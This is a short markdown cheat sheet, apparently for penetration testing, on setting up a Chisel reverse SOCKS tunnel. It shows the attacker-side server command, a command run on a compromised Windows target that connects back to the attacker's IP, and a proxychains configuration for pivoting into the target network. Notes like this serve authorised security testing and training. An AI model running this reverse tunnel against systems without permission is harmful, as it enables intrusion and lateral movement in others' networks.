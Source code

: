 # chisel setup

## On the Attacker Machine

Start the Chisel server in reverse mode with SOCKS5 support:

```bash
./chisel server -p 9090 --reverse --socks5
```

## On the Target Machine

Connect the target to the attacker’s Chisel server:

```bash
.\chisel.exe client 192.168.1.1:9090 R:socks
```

## Configure Proxychains

Update the content of `/etc/proxychains4.conf` as follows:

```conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080
